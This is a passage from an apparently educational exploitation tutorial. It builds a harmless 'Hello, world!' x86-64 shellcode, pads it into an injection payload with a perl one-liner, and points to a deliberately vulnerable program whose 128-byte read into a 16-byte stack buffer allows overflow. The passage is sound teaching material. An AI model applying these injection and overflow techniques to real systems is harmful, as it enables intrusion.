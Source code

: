 ## 04. Tutorial: "Hello, world!" shellcode

Our aim now is to develop a shellcode that prints `"Hello, world!\n"` to stdout, then inject it into `vuln` and trigger its execution.

We start by writing a shellcode that does a `write(1, "Hello, world!\n", 14)` system call, by writing the string on to the stack such that the stack pointer points to the beginning of the string.

```nasm
; Write "Hello, world!\n" to the standard output.
BITS 64
    ; We can't push 64 bit constants, but we can push 64 bit registers.
    mov rbx, `orld!\n`
    push rbx
    mov rbx, `Hello, w`
    push rbx
    mov rsi, rsp
    mov rdx, 14
    mov rdi, 1
    mov rax, 1
    syscall
```

This is just one way to do it and there are other possible approaches to it.

We then assemble our snippet to get a string of machine code bytes (the `Makefile` provided already does this).

```
$ nasm hello_shellcode.nasm -o hello_shellcode.bin
```

Our vulnerable program first reads 128 bytes into a global buffer (line 8):
```c
read(0, machine_code, 128);
```

Our shellcode-injecting payload needs to consist of the shellcode itself and some junk to pad the payload length to 128. First, we need to determine the shellcode size in bytes, then we use a tool like python to generate the string:

```
$ wc -c hello_shellcode.bin
42 hello_shellcode.bin

$ perl -e "print \"$(hexdump -v -e '"\\" 1/1 "x%02x"' ./hello_shellcode.bin)\" . \"A\" x (128 - 42)"
```

We then move on to the second part of our exploit, in which we hijack control flow by exploiting a stack-buffer-overflow in which 128 bytes are read into a 16 byte buffer.

```c
char buf[16];
...
read(0, buf, 128);
```
